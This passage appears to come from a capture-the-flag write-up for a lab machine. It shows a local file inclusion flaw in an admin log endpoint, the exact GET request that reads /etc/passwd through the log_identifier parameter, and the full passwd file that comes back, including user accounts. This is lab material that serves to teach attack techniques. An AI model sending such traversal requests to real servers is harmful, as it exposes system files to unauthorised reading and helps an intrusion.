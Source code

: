 There is LFI ([[Local File Inclusion]])

```html
GET /admin/get_system_log?log_identifier=/etc/passwd HTTP/1.1
```

![](<./attachments/Imagery-14.png>)

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
```